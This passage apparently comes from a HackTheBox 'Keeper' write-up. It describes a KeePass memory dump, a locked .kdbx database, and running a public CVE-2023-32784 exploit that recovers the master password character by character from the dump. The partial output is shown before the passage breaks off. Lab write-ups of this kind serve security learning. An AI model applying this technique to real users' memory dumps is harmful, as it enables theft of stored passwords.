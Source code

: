 * **Operating System**: The dump indicates that the operating system is Windows NT 10.0.19041, which corresponds to Windows 10.
* **Hardware Information**: The dump includes some hardware information such as the CPU architecture (amd64) and CPU details (family, model, stepping, number of CPUs).
* **Application or Process**: It seems like the dump is related to an application or process named "KeePass.exe," which is running on the system.
* **Stack Traces**: The dump includes stack traces from multiple threads. Stack traces provide information about the sequence of function calls that led to a particular point in the program. These can be helpful for debugging purposes but may not provide specific details about the program's functionality.

I got a couple of useful pieces of information, such as now I know that Kepass is used for securely saving passwords.


Now I move on to the .kdbx file and use the `kpcli` command line tool to read it, but it is protected by a password. I can't read it.
```
$ kpcli   

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open /home/kali/Documents/HackTTheBox/Keeper/passcodes.kdbx
Provide the master password:
```

Searching on github I found a [repo](https://github.com/vdohney/keepass-password-dumper) that exploits **CVE-2023-32784** to extract the password of a kepass database using the memory dump. 

I downloaded the code and ran it on my windows 11 machine.

```
> dotnet run .\KeePassDumpFull.dmp
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●ø
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●d
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●g
Found: ●●●●r
Found: ●●●●r
```
